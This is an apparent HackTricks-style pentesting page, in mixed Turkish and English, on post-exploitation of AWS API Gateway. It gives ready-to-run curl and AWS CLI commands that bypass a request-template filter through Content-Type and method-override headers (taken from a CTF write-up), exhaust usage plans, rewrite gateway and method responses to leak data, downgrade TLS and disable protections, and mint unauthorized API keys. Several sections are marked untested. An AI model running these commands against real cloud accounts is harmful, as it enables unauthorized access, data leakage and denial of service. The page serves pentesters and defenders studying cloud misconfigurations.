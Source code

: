 # AWS - API Gateway Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## API Gateway

Daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-api-gateway-enum.md
{{#endref}}

### Dışa açılmamış API'lere erişim

You can create an endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) with the service `com.amazonaws.us-east-1.execute-api`, expose the endpoint in a network where you have access (potentially via an EC2 machine) and assign a security group allowing all connections.\
Then, from the EC2 machine you will be able to access the endpoint and therefore call the gateway API that wasn't exposed before.

### İstek gövdesi passthrough'unu atlatma

This technique was found in [**this CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

As indicated in the [**AWS documentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) in the `PassthroughBehavior` section, by default, the value **`WHEN_NO_MATCH`** , when checking the **Content-Type** header of the request, will pass the request to the back end with no transformation.

Therefore, in the CTF the API Gateway had an integration template that was **preventing the flag from being exfiltrated** in a response when a request was sent with `Content-Type: application/json`:
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
Ancak, **`Content-type: text/json`** ile bir istek göndermek bu filtreyi atlatır.

Son olarak, API Gateway yalnızca `Get` ve `Options` izin verdiği için, sorguyu gövdeye koyup `X-HTTP-Method-Override: GET` başlığını kullanarak bir POST isteği gönderip sınırlama olmaksızın bir dynamoDB sorgusu çalıştırmak mümkündü:
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
### Kullanım Planları DoS

**Enumeration** bölümünde anahtarların kullanım planını nasıl **elde edebileceğinizi** görebilirsiniz. Anahtara sahipseniz ve bu anahtar **sınırlandırılmış** olarak **ayda** X kullanım hakkına sahipse, onu **sadece kullanarak bir DoS oluşturabilirsiniz**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

apigateway:UpdateGatewayResponse ve apigateway:CreateDeployment izinlerine sahip bir saldırgan, mevcut bir Gateway Response'u **özelleştirilmiş header'lar veya response template'leri ekleyecek şekilde değiştirebilir; bunlar hassas bilgileri leak edebilir veya kötü amaçlı script'leri çalıştırabilir**.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Olası Etki**: Leakage of sensitive information, kötü amaçlı betiklerin çalıştırılması veya API kaynaklarına izinsiz erişim.

> [!NOTE]
> Test edilmesi gerekiyor

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Bu izinlere (`apigateway:UpdateStage` ve `apigateway:CreateDeployment`) sahip bir saldırgan **mevcut bir API Gateway stage'ini değiştirerek trafiği farklı bir stage'e yönlendirebilir veya önbellek ayarlarını değiştirerek önbelleğe alınmış verilere izinsiz erişim sağlayabilir**.
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Önbelleğe alınmış verilere yetkisiz erişim, API trafiğini aksatma veya ele geçirme.

> [!NOTE]
> Test edilmesi gerekiyor

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, mevcut bir API Gateway REST API yönteminin method response'unu değiştirip custom headers veya response templates ekleyerek hassas bilgileri leak edebilir veya execute malicious scripts çalıştırabilir.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Olası Etki**: Hassas bilgilerin sızması, kötü amaçlı betiklerin çalıştırılması veya API kaynaklarına yetkisiz erişim.

> [!NOTE]
> Test edilmesi gerekiyor

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Bir saldırgan, `apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahipse **API Gateway REST API ayarlarını değiştirerek logging'i devre dışı bırakabilir veya minimum TLS sürümünü değiştirebilir; bu da API'nin güvenliğini zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Olası Etki**: API'nin güvenliğinin zayıflatılması, muhtemelen yetkisiz erişime izin verme veya hassas bilgilerin ifşa edilmesi.

> [!NOTE]
> Test edilmesi gerekiyor

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Bu izinlere sahip bir saldırgan **yeni API keys oluşturabilir, bunları usage plans ile ilişkilendirebilir ve ardından bu API keys'i API'lere yetkisiz erişim için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Olası Etki**: API kaynaklarına yetkisiz erişim, güvenlik kontrollerinin atlatılması.

> [!NOTE]
> Test edilmesi gerekiyor

{{#include ../../../../banners/hacktricks-training.md}}
